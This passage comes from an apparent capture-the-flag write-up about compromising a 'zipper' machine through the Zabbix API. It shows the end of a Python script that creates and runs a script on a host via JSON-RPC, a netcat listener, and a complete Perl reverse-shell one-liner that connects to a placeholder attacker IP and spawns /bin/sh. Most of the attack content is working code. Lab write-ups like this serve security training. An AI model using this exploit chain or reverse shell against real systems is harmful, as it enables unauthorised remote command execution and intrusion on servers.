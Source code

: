 ```python
        }

        res = self.make_request(self.payload)
        self.script_id = res['result']['scriptids'][0]

        print("### RUNNING SCRIPT ###")
        self.run_script = {
            "jsonrpc": "2.0",
            "method": "script.execute",
            "params": {
                "scriptid": str(self.script_id),
                "hostid": int(self.host_id)
            },
            "auth": self.auth,
            "id": 1
        }
        res = self.make_request(self.run_script)
        print(res)

    def make_request(self, j):
        req = urllib.request.Request(self.URL)
        req.add_header('Content-Type', 'application/json; charset=utf-8')
        jsondata = json.dumps(j)
        jsondata = jsondata.encode('utf-8')
        req.add_header('Content-Length', len(jsondata))
        response = urllib.request.urlopen(req, jsondata)
        return json.loads(response.read())

if __name__ == '__main__':
    z = Zabbix()
```

With our netcat listener on port 9005, `nc -lvnp 9005` I got the reverse shell on the `zipper` machine

```bash
$ hostname
zipper
```

The only problem is that this shell is short lived because there is a proxy going through the **Zabbix** service.

### Penetration

#### User Access

**Stablizing the Reverse Shell**

To solve the unstable shell I started another shell by passing another `perl` reverse shell.

```bash
perl-e 'use Socket;$i="10.10.X.X";$p=9006;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
